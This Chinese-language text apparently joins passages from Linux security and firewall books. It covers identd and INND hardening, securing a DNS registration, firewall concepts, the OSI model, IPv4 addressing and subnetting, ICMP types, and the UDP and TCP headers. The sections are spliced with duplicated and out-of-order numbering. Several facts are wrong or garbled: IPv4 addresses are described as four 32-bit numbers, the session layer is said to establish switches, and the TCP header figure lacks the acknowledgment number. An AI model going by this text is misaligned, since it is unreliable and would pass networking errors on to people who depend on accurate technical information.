`ident`服务向任何询问的进程提供关于你系统的信息。如果允许提供用户名，攻击者可能会利用这些信息猜测密码或电子邮件地址。请记住，任何信息要从登录尝试中辨别出来，都需要提供有效的用户名和该用户的密码。建议调用`identd`时提供`-n`标志，以便提供数字UID而不是用户名，因为UID对此目的没有用处。此外，建议使用`-user`和`-group`标志来更改`ident`，使其自身转变为无害的用户和组，例如`ident`。这样，如果入侵者发现了其中的漏洞，他们也无法获得访问权限。

> 你可能想要修改`identd`，使其在每次被查询时提供相同的响应（伪造的用户名）。这将阻止入侵者发现谁已登录，并阻止入侵者和垃圾邮件发送者出于恶意目的获取用户名。你可以从 www.ajk.tele.fi/~too/sw/ 下载这样的伪造版本。

此外，由于这是攻击者可以耗尽的资源，拒绝服务（DoS）攻击是可能的。建议如果运行此服务，应仅在具有具有shell账户的“真实用户”的系统上运行。（其他系统没有用处。）默认关闭的`-o`选项将导致`identd`声明操作系统是OTHER而不是UNIX。虽然有些人提倡“通过保密性获得安全”，但我认为这种技术并没有特别的价值，尽管我不认为泄露用户数字是明智的；那信息会准确揭示漏洞。

`-l`选项将导致`identd`通过`syslog`记录请求。默认是开启的。


熟练的入侵者可以通过观察系统在处理数据包时如何对某些条件做出不同响应来确定你系统的操作系统。`nmap`程序特别擅长于此。如果你通过`telnet`服务或提供Linux和UNIX特有的其他服务提供了这些信息，那就不必要这样做了。如有疑问，就不要提供`identd`。

## 3.13 INND 和 News

| 危险等级 |
| :--- |
| 💀💀💀 |

这些服务器提供Usenet（网络）新闻，也称为“新闻组”或News。在许多最近的发行版中，INND默认是启用的。启用时它使用相当多的资源，即使在默认配置下，它也占用周期。当然，除非你将使用它，否则应该关闭它，就像应该关闭任何不需要的服务一样。

除了在处理大量组时资源密集之外，这些服务似乎相对安全。它们应该以`news`用户和组运行。应该预期存在伪造的帖子，因此发件人信息不可信。INND和News使用`nntp`端口（网络新闻传输协议端口），即`TCP`端口`119`。要禁用，你应该发出以下命令：

```
/etc/rc.d/init.innd stop
chkconfig innd off
```

## 3.14 保护你的DNS注册

危险等级

这是大多数系统管理员从未想到要担心的安全领域。简而言之，他们与Network Solutions的有用人士注册，从不担心他们数百万美元的公司依赖于大约80字节将域名映射到名称服务器IP地址的数据。参见第558页的“AOL的DNS变更混乱”，了解AOL面临的“非常大”的问题。有时，你可能想要更改这些信息，特别是在更换ISP或更换充当名称服务器的系统时。当然，记住密码是个麻烦事，你有丢失它们的风险。

Network Solutions提供了三种电子方式更改此信息。默认方式是发送邮件，账号被列为注册者或技术联系人。众所周知，欺骗这些邮件很容易。这就是发生在AOL身上的情况，也可能发生在采用这种方法的大多数域名所有者身上。解决方案是通过更改你连接Network Solutions的身份验证方法来改变你域名的认证方式。

另外两种方法是通过使用密码或使用PGP密钥。在密码方法中，你提供，嗯，啊，密码。Network Solutions将此称为`CRYPT-PW`方法。使用此方法，Network Solutions加密你提供的密码并以类似Linux存储用户密码加密版本的方式存储它。要更改信息，你需要提供原始密码。即使入侵者攻陷了Network Solutions（虽然我没有听说发生过这种情况），入侵者也无法获得你的密码。

此方案中的一个次要弱点是，加密算法似乎对未加密密码的前两个字符不做更改。因此，建议前两个字符不要使用容易猜到的单词。这是一个小问题，因为加密后的密码不是公开信息。使用良好的密码，如第36页“避免弱密码和默认密码”中讨论的。

最后一种方法是通过你提供给 Network Solutions 的 PGP（Pretty Good Privacy，完美隐私）公钥。据报道，这种方法使用起来非常痛苦。如果你决定使用 PGP 方法，首先你需要通过向`PGPREG@networksolutions.com`发送电子邮件来向 Network Solutions 注册你的公钥，邮件主题应设为“ADD”。正文应包含你的公钥，这些公钥通常以 `pubkey.asc` 的形式存储在你的系统中。我们接受通过 PGP Version 5.X 生成的密钥，包括通过“Diffie-Hellman 算法”生成的密钥。

在撰写本文时，它们无法支持 PGP Version 6.X，但等你读到这篇文章时，情况可能已经发生了变化。当你修改数据时，当然需要用你的私钥对电子邮件进行签名。无论使用哪种方法，请立即从默认的“电子邮件地址认证方法”切换。AOL 希望你尽早这样做。将你的浏览器指向：

`www.networksolutions.com/makechanges/`

输入你的域名（表单前面显示 www.）并点击 Submit（提交）。在新表单中，点击 Beginner（初学者）。（如果你觉得点击 Expert（专家）模式很舒服，那么你就无需继续阅读本节的其余部分。）

选择 Authentication（认证）并点击 Next>>（下一步）。在下一个屏幕上，你需要输入你想要操作的联系句柄（contact handle）。避免冗余信息和更新工作。Network Solutions 意识到特定的人可能负责多个域名。因此，在他们的数据库中，联系记录包含一个名称，通常由一个人的首字母和一个用于唯一性的数字组成。该记录还包含一个电子邮件地址。通过几个屏幕填写显而易见的信息。最后，生成的表单将通过电子邮件发送到指定的账户。

你需要接收这封电子邮件，并按照指示将其发回给 Network Solutions。如果你的发件人地址与你的账户匹配且你很幸运，更新就会完成。我尝试过几次更新我的记录，我的 ISP 也尝试过，但都没有效果。

一些网站已被通过“社会工程学”（不直接突破计算机安全的欺骗手段）成功“劫持”域名，例如发送传真请求 Network Solutions 进行修改。

这就引出了下一个话题：如果你使用的是 Network Solutions 以外的注册商，如何保护你的 DNS 注册信息。老实说，现在处理 Network Solutions 的替代方案有很多。这些“注册商”都有各自的政策和价格（尽管尚未发生价格战）。这些新的域名注册商可以自由地设定任何关于安全的政策。寻找一个使用密码保护或其他手段提供足够安全性的注册商。询问他们使用什么操作系统。

## 3.14 保护 DNS 注册

查看他们使用什么来保护你与其 Web 服务器及其 DNS 服务器之间的数据。为 `realworldlinuxsecurity.com` 选择的那个注册商使用 Linux 作为其名称服务器，使用 SSL 让客户与其 Web 服务器通信，具有密码保护，并且使创建新域名或修改现有域名变得非常容易。（鼓励感兴趣的读者联系作者了解详情；作为一个次要的安全点，其名称并未公布。）Network Solutions 不加密传输中的数据，尽管这使得攻击者监听网络中流量百万条中那一条包含未加密密码的传输的概率很低。

此外，如果你将使用注册商的名称服务器（如果它提供这项有价值的服务），请寻找那些在地理上分散其名称服务器、将它们部署在不同骨干网上、当然还配备发电机以提供备用电源的注册商。如果你的网站位于加拿大，你不希望因为弗吉尼亚的冰暴或佛罗里达的飓风导致你注册商的唯一拥有名称服务器的建筑停电，从而使得客户无法访问你。还要注意，如果你的注册商提供地理分散的、运行在安全系统（优选 Linux）上的名称服务器，你就能在一定程度上保护自己免受 ISP 安全薄弱带来的风险。一些安全较强的网站曾因为攻击者直接接管其域名或 ISP 而非网站本身，而遭受成功入侵或遭受有效的 DoS 攻击。

此外，还有意外未支付续费账单的风险，这会导致他人注册该域名。微软的一个重要域名几乎就发生了这种情况。一位好心的善人（也是一名 Linux 顾问）支付了 70 美元的续费账单，并得到了非常感激的微软的报销。许多人是否记得在新的人接手此职能或公司搬迁时，更新 Network Solutions 域名记录中的电子邮件和邮政地址？

## 数据包过滤防火墙的基础概念

小型站点可能通过 `T1` 线路、电缆调制解调器、`DSL`、`ISDN`、电话拨号账户的 `PPP` 连接或无线方式访问互联网。直接连接到互联网计算机是安全问题的焦点。无论你是一台计算机还是由互联计算机组成的局域网（`LAN`），小型站点的初始焦点都将放在具有直接互联网连接的机器上。这台机器将成为防火墙。

防火墙的目的根据其实现方式和用途有不同含义。在本书的开篇部分，防火墙指的是连接互联网的机器。这是实施你的互联网访问主要安全策略的地方。防火墙的外部网络接口卡是连接点，或通往互联网的网关。防火墙的目的是保护网关你这一侧的东西免受另一侧的威胁。

简单的防火墙配置有时被称为堡垒防火墙，因为它是抵御外部攻击的主要防线。你的许多安全措施都是从这个你领地的唯一守护者上构建的。因此，尽一切努力来保护这个系统。

在这道防线后面是你的单台计算机或一组计算机。防火墙机器的目的可能仅仅是作为其他 LAN 机器连接互联网的接入点。你或许正在这个防火墙后面运行本地的私有服务，例如共享打印机或共享文件系统。或者你可能希望你的所有计算机都能访问互联网。其中一台机器托管你的私有财务记录。你可能希望从这台机器访问互联网，但不希望任何人进入。在某个时候，你可能希望向互联网提供你自己的服务。其中一台机器可能托管你的网站。另一个功能可能是你的邮件服务器或网关。你的设置和目标将决定你的安全策略。

防火墙的目的是执行你定义的安全策略。这些策略反映了你关于希望你的计算机可以访问哪些互联网服务、希望从你的计算机向世界提供哪些服务、希望向特定远程用户或站点提供哪些服务，以及希望本地运行哪些供自己私有使用的服务和程序所做的决定。安全策略都关乎访问控制以及对你的计算机上私有或受保护的服务、程序和文件的认证使用。

家庭和小型商业系统并不面临大型公司站点所面临的所有安全问题，但基本思想和步骤是相同的。只是需要考虑的因素较少，且安全策略通常不像公司站点那样严格。重点在于保护你的站点免受来自互联网的不受欢迎访问。数据包过滤防火墙是网络安全和控制进出的访问的一种常见方法，也是其中的一部分。


当然，拥有防火墙并不意味着你得到了完全的保护。安全是一个过程，而不是一件硬件设备。例如，即使部署了防火墙，也有可能下载间谍软件或点击恶意构造的电子邮件，从而使计算机和因此网络暴露在攻击之下。采取措施来减轻成功攻击的危害，与在防火墙上投入资源同样重要。在你的网络内部使用最佳实践有助于降低成功被利用的可能性并增强你网络的韧性。

需要牢记的是，互联网范式基于端到端透明性的前提。两个通信机器之间的网络旨在是不可见的。事实上，如果一个网络设备沿路径运行，两个端点之间的流量可能会被静默地重新路由。

理想情况下，防火墙应该是透明的。然而，它们在两个端点之间的网络中引入了一个单点故障，从而破坏了互联网范式。此外，并非所有的网络应用程序都使用可以轻松通过简单的数据包过滤防火墙的通信协议。没有额外的应用支持或更复杂的防火墙技术，无法让某些流量通过防火墙。

进一步使问题复杂化的是网络地址转换（`NAT`，在 Linux 术语中称为“`masquerading`”）的引入。`NAT` 使一台计算机能够代表许多其他计算机通过翻译其请求并将其转发到目的地来行事。在 Linux 中结合使用 `NAT` 和 `RFC 1918` IP 地址有效地阻止了 `IPv4` 地址即将耗尽的问题。`NAT` 和 `RFC 1918` 地址空间的结合使得传输某些类型的网络流量变得困难、不可能、复杂或昂贵。

> 许多路由设备，特别是那些用于 DSL、电缆调制解调器和无线的设备，正作为防火墙出售，但它们只不过是启用了 `NAT` 的路由器。它们不执行真正防火墙的许多功能，但它们确实将内部与外部隔离开来。在购买声称是防火墙但仅提供 `NAT` 的路由器时要留心。虽然这些产品中的一些有一些良好的功能，但无法进行更高级的配置。

## 4.1 OSI 网络模型

最后一个复杂因素是多媒体和对等协议（P2P）的激增，这些协议既用于实时通信软件，也用于流行的网络游戏。这些协议与当前的防火墙技术背道而驰。如今，必须为每个应用程序协议构建并部署特定的软件解决方案。防火墙架构正在标准委员会的工作组中制定过程中，以便能够轻松且经济地处理这些协议。

重要的是要记住，防火墙、`DHCP` 和 `NAT` 的组合会引入复杂性，导致站点在一定程度上妥协系统安全性，以便使用它们想要的网络服务。小型企业通常必须部署多个局域网和更复杂的网络配置，以满足各个本地主机的不同安全需求。

在进入开发防火墙的细节之前，本章介绍了包过滤防火墙所基于的基本潜在概念和机制。这些概念包括关于什么是网络通信、基于网络的服务如何被识别、什么是数据包，以及网络上计算机之间消息和信息类型的通用参考框架。

`OSI`（开放式系统互联）模型代表了一个基于层的网络框架。`OSI` 模型中的每一层相对于其他层提供了独特的功能。`OSI` 模型包含七层，如 图 4.1 所示。

这些层有时通过编号来称呼，最低层（物理层）是第 1 层，最高层（应用层）是第 7 层。如果你听到某人提到“第 3 层交换机”，指的是 `OSI` 模型的第三层。作为一个对安全入侵检测感兴趣的人，为了完全理解可能危害你系统的攻击路径，你必须了解 `OSI` 模型的各层。

`OSI` 模型中的每一层都很重要。你每天使用的协议，如 `IP`、`TCP`、`ARP`、`NFS` 和其他，驻留在该模型的各种层上。每一层在通信过程中都有其独特的功能和角色。

`OSI` 模型的物理层由介质本身占据，例如电缆和相关信号协议，换句话说，就是传输比特。对于网络分析人员来说，除了保护设备和布线外，大部分情况下物理层不是特别关注的重点。因为这本书并没有真正讨论物理安全（门锁有多有趣呢？），所以我也不会花费更多时间在 `OSI` 模型的物理层上。显然，保护物理电线的步骤与保护无线的方式不同。

物理层之上的下一层是数据链路层。数据链路层负责在给定介质上传输数据，并负责检测传输中的错误和恢复。数据链路层也是定义硬件地址的层，例如以太网卡媒体访问控制（`MAC`）地址。

数据链路层之上，网络层是 `IP` 网络中至关重要的第三层。网络层负责数据的逻辑寻址和路由。`IP` 是一个网络层协议，这意味着网络层是使用 IP 地址和子网掩码的层。路由器和一些交换机在第三层运行，在逻辑上和物理上划分的网络之间移动数据。

第四层，传输层，是构建可靠性的主要层。存在于传输层的协议包括 `TCP` 和 `UDP`。第五层是会话层，端点之间的交换机在此建立。第六层，表示层，主要负责与上方的应用层通信，它还定义了诸如使用的加密等事物。最后，应用层负责向用户或应用程序显示数据。

除了 `OSI` 模型，还有一个模型，即 `DARPA` 模型，它由四层组成。`OSI` 模型是大多数网络讨论所采用的传统或事实上的模型。

当数据从应用程序沿 `OSI` 模型的层向下移动时，下一层的协议可能会将自身的信息添加到数据中。这数据通常是一个头部，它被前置到来自下一最高层级的数据中，有时也会添加尾部。这个过程称为封装，直到数据在物理介质上传输为止。在以太网的案例中，当数据被传输时，它被称为帧。当以太网帧到达其目的地时，帧开始沿 `OSI` 模型的层向上移动的过程，每一层读取来自发送方对应层的头部（和可能的尾部）信息。这个过程称为解多路复用。

### 4.1.1 无连接与面向连接协议

在 `OSI` 模型的一些层中，协议可以根据其属性之一来定义，即无连接或面向连接。这个定义指的是协议所包含的方法，用于提供诸如错误控制、流量控制、数据分段和数据重组等事物。

将面向连接的协议想象成电话呼叫。通常，进行电话通话并交谈有一个可接受的协议。发起通信的人（发起者）通过拨打电话号码来开启通信。另一端的人（或机器，这种情况越来越普遍）收到开始电话对话的请求。发起电话对话的请求通常由接收方电话的铃声表示。接收者拿起电话并说“你好”或其他形式的问候。发起者以类似的方式回应，表示确认。此时，可以安全地说对话或呼叫建立已经发起。在对话过程中，如果出了问题，如线路噪音，一方可能会要求另一方重复其最后的陈述。大多数时候，当通话结束时，双方都会表示他们已结束对话，通过说“再见”来表明。此后通话结束。

刚才给出的例子为像 `TCP` 这样的面向连接协议提供了合理的图像。规则有例外，就像 `TCP` 协议之外也可能存在例外或错误一样。例如，初始呼叫由于超出主叫方或接收方控制的技术原因而失败。

另一方面，无连接协议更像通过邮件发送的明信片。发送者在明信片上写好信息并将其放入邮箱后，发送者（大概）就会失去对该信息的控制。发送者不会收到直接确认，表明明信片是否成功送达。无连接协议的例子包括 `UDP` 和 `IP` 本身。

### 4.1.2 下一步

从这里开始，我将深入更详细地查看互联网协议（`IP`）。然而，我强烈建议你花些额外时间学习 `OSI` 模型和协议本身。对协议和 `OSI` 模型的了解对安全专业人士至关重要。我高度推荐 W. Richard Stevens 的《`TCP/IP` 详解，卷 1》，这是一本任何计算机专业人士桌上不可或缺的“啤酒书”。

## 4.2 IP

互联网协议是互联网运行的基础。与其他层的协议一起，`IP` 层为无数应用程序提供通信。`IP` 是一个无连接协议，提供第三层路由功能。

### 4.2.1 IP 寻址与子网划分

正如你已知但我感觉必须写出的那样，`IP` 第四版（`IPv4`）的地址由四个 32 位数字组成，以点分隔，称为“点分四元组”或“点分十进制”表示法。虽然似乎每个人都理解或至少见过 IP 地址，但看起来越来越少的入了解了子网划分和子网掩码，它们是 IP 寻址方案的重要组成部分。本节简要查看寻址和子网划分。

`IP` 地址被划分为不同的类，而不是一个完全平坦的空间。`IP` 地址的类如 表 4.1 所示。

表 4.1 互联网范围

| 类 | 地址范围 |
|---|---|
| `A` | `0.0.0.0` 至 `127.255.255.255` |
| `B` | `128.0.0.0` 至 `191.255.255.255` |
| `C` | `192.0.0.0` 至 `223.255.255.255` |
| `D` | `224.0.0.0` 至 `239.255.255.255` |
| `E` 和未分配 | `240.0.0.0` 至 `255.255.255.255` |

在实践中，`A` 类到 `C` 类的地址用于一般的互联网使用。然而，一些读者可能对 `D` 类地址有经验，它们经常用于多播。`E` 类是实验和未分配的范围。

#### 特殊 IP 地址

`IP` 地址有三个主要的特殊情况：

- **网络地址 0**——如 `A` 类地址部分所述，网络地址 0 不用作可路由地址的一部分。当用作源地址时，其唯一合法的用途是在主机尝试由服务器动态分配其 IP 地址的初始化期间。当用作目的地址时，只有地址 `0.0.0.0` 有意义，并且仅指代本机，或作为连接指代默认路由。

- **回环网络地址 127**——如 `A` 类地址部分所述，网络地址 127 不用作可路由地址的一部分。回环地址指的是操作系统支持的私有网络接口。该接口用作基于本地网络服务的寻址机制。换句话说，本地网络客户端使用它来寻址本地服务器。回环流量完全保留在操作系统内。它永远不会被传递给物理网络接口。通常，`127.0.0.1` 是唯一的回环地址，指代本地主机。

## 广播地址


广播地址是适用于网络上所有主机的一种特殊地址。广播地址主要分为两大类。受限广播（Limited broadcasts）不会被路由，而是被传递到连接到同一物理网段的所有主机。IP 地址中网络字段和主机字段的所有位均设置为 1，即 `255.255.255.255`。指向网络的广播（Network-directed broadcasts）会被路由，并被传递到指定网络上的所有主机。IP 地址的网络字段指定了网络，而主机字段通常全为 1，例如 `192.168.10.255`。或者，您有时也会看到地址被指定为网络地址，例如 `192.168.10.0`。

IP 头部由多个字段组成，总计 20 字节，不包括可作为头部一部分选填的选项字段。IP 头部如`图 4.2`所示。

| 版本 | 头部长度 | TOS | 数据报总长度 |
| :--- | :--- | :--- | :--- |
| 数据包 ID | 标志 | 片偏移 |  |
| TTL | 协议 | 头部校验和 |  |
|  |  | 源地址 |  |
|  |  | 目的地址 |  |
|  | （IP 选项） |  | （填充） |

`图 4.2` IP 头部。

IP 头部以 4 个位开始，表示版本，当前为版本 4，随后是头部的长度，通常为 20 字节加上可选的选项。IP 头部的最大长度为 60 字节。下一个字段是服务类型（TOS），包含 3 位优先级（未使用）、4 位 TOS 本身，以及一个必须设置为 0 的位。以下是 TOS 的四种可能取值：

- 最小化延迟
- 最大化吞吐量
- 最大化可靠性
- 最小化货币成本

在正常条件下，这 4 个位全为零，但某些应用程序可能根据其需求使用不同的位。例如，SSH 会话由于其交互性质，可能会选择最小化延迟。

IP 地址的第一个数字表示该地址的类别。由于十进制表示中的每个数字为 8 位，因此每个数字的可能取值范围为 0 到 255。类别指示默认分配给地址网络部分的位数与分配给主机标识的位数。地址中网络部分与主机部分的划分非常重要，因为这是子网寻址的基础。

除了类别之外，Internet 上还有三种类型的地址：单播（unicast）、组播（multicast）和广播（broadcast）。单播地址对应 Internet 上的单个主机。组播地址对应于被要求加入该组的主机组。广播地址由希望向特定子网中的所有主机发送数据的主机使用。

每个类别都有一个默认子网掩码，指示给定地址中网络部分与主机部分的划分。这一概念比较抽象，所以我将举例说明，之后还会有一小段测验。开玩笑的！

A 类到 C 类的默认子网掩码如`表 4.2`所示。

| 类别 | 默认子网掩码 |
| :--- | :--- |
| A | `255.0.0.0` |
| B | `255.255.0.0` |
| C | `255.255.255.0` |

您在配置网络设置时无疑见过并输入过这些数字。如前所述，子网掩码指示了 IP 地址中网络部分与主机部分的划分。地址中未加掩码的部分，即主机部分，构成了主机所在的逻辑网络。换句话说，使用 `255.255.255.0` 的 C 类子网掩码时，网络上总共可以有 254 台主机。敏锐的读者可能会注意到有 256 个地址，但只有 254 台主机。在逻辑 IP 网络中，有两个特殊地址：网络地址和广播地址。无论网络规模如何，这都是成立的。以 C 类子网为例，网络地址以 `.0` 结尾，广播地址以 `.255` 结尾。

如`表 4.2`所示，IPv4 地址总共 32 位，A 类子网掩码使用 8 位，而 C 类子网掩码使用 24 位。当网络沿传统地址类别边界使用默认掩码进行划分时，被称为有类网络（classful network）。正如您可能预期的那样，有时使用更小的网络会更有利。例如，两个需要相互传输数据的路由器，如果使用传统子网划分，将使用整个 C 类网络。幸运的是，无类（classless）划分也是可能的。

使用子网划分，正式称为无类域间路由（CIDR），可以通过添加或减少子网掩码中的位来按需划分网络。这在地址保护方面非常有用，因为它使网络管理员能够根据需求和便利性，而不是根据类别边界，定制网络的大小。回到两个仅相互通信的路由器的例子，使用 CIDR，网络管理员可以创建一个仅包含两台主机的网络，其生成的子网掩码为 `255.255.255.252`。

我将把这个例子延伸一下。这两台路由器只需要在这个网络内相互通信，以便在两个不同的 IP 网络之间运行流量。网络管理员将一台路由器分配地址 `192.168.0.1`，另一台路由器分配 `192.168.0.2`，并赋予两者子网掩码 `255.255.255.252`。鉴于该子网掩码，有两个可用的 IP 地址可用于主机屏蔽。该逻辑网络的地址为 `192.168.0.0`，广播地址为 `192.168.0.3`。管理员现在可以按照 CIDR 规则，将 `192.168.0` 网络的其余部分用于其他用途。

您经常会看到被称为 `/NN` 的表示法，其中 NN 是要被屏蔽的位数。例如，C 类地址的网络部分有 24 位，这意味着它可以被称为 `/24`。B 类将是 `/16`，A 类将是 `/8`。回到双路由器的例子，该地址的 CIDR 表示法为 `/30`。`/30` 表示地址中的 30 位被用于子网。

为什么子网划分很重要？简单的答案是，子网定义了网络可能的最大广播空间。在子网内，主机可以向该子网中的所有主机发送广播。在实践中，广播通常受物理限制而非子网掩码呈现的逻辑限制。您只能将有限数量的设备连接到交换机，否则可能会（我强调一遍）开始导致性能下降，并且很可能需要将网络划分为更小的逻辑部分。如果没有子网划分，我们将拥有一个非常大的扁平地址空间，这将比当前使用的分层寻址速度慢得多。

有时，IP 数据包的大小超过了其所在物理介质允许的最大尺寸。这个允许的最大尺寸称为最大传输单元（MTU）。如果 IP 数据包大于介质的 MTU，数据在传输前需要被分割成更小的块。对于以太网，MTU 为 1500 字节。将 IP 数据包分割成更小片的过程称为分片（fragmentation）。

分片在 OSI 模型的 IP 层处理，对于高层协议（如 TCP 和 UDP）是透明的。作为管理员，您应该注意分片，因为如果大型分段的一个分片丢失，它可能会影响应用程序性能。此外，作为系统管理员，您应该了解分片，因为它过去曾是攻击的路径。不过，请意识到通信路径中的任何中间路由器或其他设备都可能导致分片，您甚至可能都不知情。

### 4.2.3 广播与组播

当设备希望向同一网段上的任何人发送数据时，它可以发送到一个称为广播地址的特殊地址来完成此任务。另一方面，组播发送到属于组播组的设备，这些设备有时被称为订阅者。

想象一个大型扁平网络，其中每台计算机和设备都连接到其他设备。在这种环境中，每个网络设备都能看到其他每个网络设备的流量。在这种类型的网络中，每个设备都会看到流量，并判断是否关心该流量。换句话说，它查看数据是发送给它还是其他设备的。如果数据是发送给该设备的，它会将数据传递到 OSI 模型的层。在以太网的接口层，设备查找其 MAC 地址或与网络接口本身相关的硬件地址。请记住，IP 地址仅与 OSI 模型中较高层的协议相关。

除了发送到设备本身的地址外，还有两种特殊情况可能会导致接口接收数据并将其传递到更高层。这两种特殊情况是组播和广播。组播是一种向据称订阅了组播的设备子集传输数据的方法。

另一方面，广播旨在被接收它的每个设备处理。主要有两种类型的广播：定向广播（directed broadcast）和受限广播（limited broadcast）。定向广播是最常见的。受限广播用于试图通过 DHCP、BOOTP 或其他配置协议进行配置的设备。受限广播发送到地址 `255.255.255.255`，并且从不经过路由器。这对于任何控制路由器或其他设备（如路由防火墙）的人来说都是一个关键提示。如果您在面向外部 Internet 的设备上接收到一个数据包，更有可能是一个潜在的攻击者正在尝试探测您的网络。如果路由器有设备在启动时通过 DHCP 进行配置，您可能会在内部接口上看到受限广播。

定向广播是您在任何给定网络上看到的广播中最常见的形式。这是因为广播被地址解析协议（ARP，稍后讨论）用于确定给定子网上 IP 地址的 MAC 地址。定向广播是由发送设备所在的子网或路由器限制的广播。默认情况下，当路由器遇到定向广播时，它不会通过路由器将其传递给其他路由器。大多数路由器都可以配置为允许此行为；但是，应注意通过路由器转发广播以免造成广播风暴。子网广播是发往给定子网中广播地址的数据帧。该广播地址取决于给定子网的子网掩码。在 C 类子网（`255.255.255.0` 或 `/24`）中，默认广播地址是最高可用地址，即以 `.255` 结尾的那个。例如，在 `192.168.1.0/24` 网络中，广播地址是 `192.168.1.255`。

### 4.2 ICMP


有些人认为 ICMP 在 IP 层占据着特殊的位置。你在使用 `ping` 命令时可能已经熟悉 ICMP，因为 `ping` 正是利用了 ICMP。ICMP，即互联网控制报文协议（Internet Control Message Protocol），有多种用途，包括作为 `ping` 命令的底层协议。ICMP 包含 15 种功能，每种功能由一个类型代码标识。例如，ICMP 回显请求（即 ping）的类型为 8；针对该请求的回复，恰当地被称为回显回复（Echo Reply），其类型为 0。在不同的类型内部，还存在用于指定给定类型状态的代码。ICMP 消息的类型和代码如表 4.3 所示。

### 表 4.3 ICMP 消息类型和代码

| 类型 | 代码 | 描述 |
| :--- | :--- | :--- |
| 0 | 0 | 回显回复 |
| 3 | 0 | 目标不可达 |
| | 1 | 主机不可达 |
| | 2 | 协议不可达 |
| | 3 | 端口不可达 |
| | 4 | 需要分片且设置了 DF（不分片）标志 |
| | 5 | 源路由失败 |
| | 6 | 目标网络未知 |
| | 7 | 目标主机未知 |
| | 8 | 源主机隔离 |
| | 9 | 目标网络在管理上被禁止 |
| | 10 | 目标主机在管理上被禁止 |
| | 11 | 网络对于服务类型（Type of Service）不可达 |
| | 12 | 主机对于服务类型不可达 |
| | 13 | 通信在管理上被禁止 |
| | 14 | 主机优先级违规 |
| | 15 | 优先级截止已生效 |
| 4 | | 源站抑制 |
| 5 | | 重定向 |
| | 0 | 网络重定向 |
| | 1 | 主机重定向 |
| | 2 | 服务类型和网络重定向 |
| | 3 | 服务类型和主机重定向 |
| 8 | 0 | 回显请求 |
| 9 | 0 | 路由器通告 |
| 10 | 0 | 路由器请求 |
| 11 | 0 | 超时：传输过程中生存时间（TTL）耗尽 |
| | 1 | 分片重组超时 |
| 12 | 0 | 参数问题 |
| 13 | 0 | 时间戳请求 |
| 14 | 0 | 时间戳回复 |
| 15 | 0 | 信息请求 |
| 16 | 0 | 信息回复 |
| 17 | 0 | 地址掩码请求 |
| 18 | 0 | 地址掩码回复 |

ICMP 消息的类型和代码包含在 ICMP 首部中，如图 4.3 所示。

## 4.3 传输机制

互联网协议定义了 OSI 模型中的网络层协议。虽然存在其他网络层协议，但我们将仅聚焦于 IP，因为它是当今使用最广泛的网络层协议。在 OSI 模型中，位于网络层之上的是传输层。如你所料，传输层也有自己的一套协议。其中两个传输层协议值得关注：`UDP` 和 `TCP`。本节将分别探讨这些协议。

### 4.3.1 UDP

`UDP`，即用户数据报协议（User Datagram Protocol），是一种无连接协议，常用于 `DNS` 查询、`SNMP` 和 `RADIUS` 等服务。作为无连接协议，`UDP` 类似于一种“即发即忘”类型的协议。客户端发送一个 `UDP` 数据包（有时也称为数据报），并假设服务器会收到该数据包。由更高层的协议负责按顺序组装数据包。`UDP` 首部如图 4.4 所示，长度为 8 字节。

| 源端口 | 目标端口 |
| :--- | :--- |
| `UDP` 数据包长度 | 校验和 |

**图 4.4** `UDP` 首部。

`UDP` 数据包长度是指整个数据包（包括数据部分）的长度。显然，由于首部本身长度为 8 字节，该部分的最小值为 8。`UDP` 首部的最后一部分是校验和，它包含首部和数据两部分。

### 4.3.2 TCP

`TCP`，即传输控制协议（Transmission Control Protocol）的缩写，是一种面向连接的协议，常与 `IP` 一起使用。称 `TCP` 为面向连接意味着它为上层提供可靠的服务。回想本章前面提到的电话通话类比。与那个类比类似，两个希望使用 `TCP` 进行通信的应用程序也必须建立连接（有时也称为会话）。`TCP` 首部如图 4.5 所示。

| 源端口 | 目标端口 |
| :--- | :--- |
| | 序列号 |
| | 数据偏移 | 未用 | 标志 | 窗口 |
| | 校验和 | 紧急指针 |

**图 4.5** `TCP` 首部。

从图 4.5 可以看出，20 字节的 `TCP` 首部比本章中展示的其他协议首部要复杂得多。与 `UDP` 首部以源端口和目标端口开始不同，`TCP` 连接是通过源端口、目标端口以及发送方和接收方的 `IP` 地址的组合来标识的。`TCP` 首部包含一个 32 位的序列号和一个 32 位的确认号。请记住，`TCP` 是一种面向连接的协议，并提供可靠服务。序列号和确认号是提供可靠性使用的主要机制（但不是唯一机制）。当数据向下传递到传输层时，`TCP` 会将数据分割为其认为最合适的尺寸。这些片段被称为 `TCP` 段。`TCP` 将数据向下发送到协议栈；它创建一个序列号，指示给定数据段的第一个字节。在通信的另一端，接收方发送一个确认信息，表明该段已收到。发送方保持计时器运行，如果未能在及时的时间收到确认信息，该段将被重新发送。

提供可靠性的另一种机制是 `TCP` 为首部和数据提供了校验和。如果发送方在首部中设置的校验和与接收方计算出的校验和不匹配，接收方将不会发送确认信息。如果确认信息在传输过程中丢失，发送方很可能会发送另一个具有相同序列号的数据段。在这种情况下，接收方将直接丢弃重复的数据段。

一个 4 位的字段用于指示首部长度，包括作为首部一部分提供的任何选项。`TCP` 首部内有六个独立的标志：`URG`、`ACK`、`PSH`、`RST`、`SYN` 和 `FIN`。这些标志的描述包含在表 4.4 中。

#### 表 4.4 TCP 首部标志

| 标志 | 描述 |
| :--- | :--- |
| `URG` | 指示应检查首部中的紧急指针部分。 |
| `ACK` | 指示应检查确认号。 |
| `PSH` | 指示接收方应尽可能快地将此数据传递到上层。 |
| `RST` | 指示连接应被重置。 |
| `SYN` | 发起连接。 |
| `FIN` | 指示发送方（可以是连接的任何一端）已完成发送数据。 |

16 位的窗口字段用于提供滑动窗口机制。接收方设置窗口号以指示其准备接收的大小，从确认号开始。这是 `TCP` 的一种流量控制形式。

16 位的紧急指针指示从序列号开始的偏移量，指向那些应以紧急方式处理的紧急数据，并且可以与 `PSH` 标志配合使用。

既然你对 `TCP` 首部已有了一些了解，是时候来考察 `TCP` 连接是如何建立和终结的了。

#### TCP 连接

`UDP` 是一种无连接协议，而 `TCP` 是一种面向连接的协议。在 `UDP` 中，没有连接的概念，只有 `UDP` 数据报的发送方和接收方。而在 `TCP` 中，连接的任何一方都可以发送或接收数据，甚至可能同时执行这两种操作。这就是使 `TCP` 成为全双工协议的原因。建立 `TCP` 连接的过程有时被称为三次握手——你很快就会明白原因。

对于面向连接的协议，有一组特定的程序用于建立 `TCP` 连接。在此过程中，`TCP` 连接存在各种状态。接下来将详细介绍连接建立程序及其对应的状态。

